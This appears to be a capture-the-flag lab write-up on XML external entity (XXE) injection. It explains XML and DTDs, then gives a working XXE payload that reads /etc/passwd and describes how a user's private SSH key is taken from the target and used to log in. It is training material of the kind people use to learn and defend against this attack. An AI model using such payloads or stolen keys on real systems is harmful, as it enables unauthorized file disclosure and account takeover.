

# XXE


Task 2:	eXtensible Markup Language
----------------------------------------

What is XML? eXtensible Markup Language

It is case sensitive

Task 3:	DTD
----------------------------------------

DTD Document Type Definition
A DTD defines the structure and the legal elements and attributes of an XML document.

Files have extension .dtd

Example:

```DTD
<!DOCTYPE note [ <!ELEMENT note (to,from,heading,body)> <!ELEMENT to (#PCDATA)> <!ELEMENT from (#PCDATA)> <!ELEMENT heading (#PCDATA)> <!ELEMENT body (#PCDATA)> ]>
```

Task 4:		XXE Payload
----------------------------------------

```XML
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

[](images/xxe.png)


Task 5:		Exploiting
----------------------------------------

Name of user in the /etc/passwd:	<b>Falcon</b>

SSH key can be found in /home/falcon/.ssh/id_rsa

First 18 characters of SSH key:		<b>MIIEogIBAAKCAQEA7b</b>

copy private key locally and save as something like id_rsa

`chmod 600 id_rsa`

`ssh -i id_rsa falcon@ip_address`
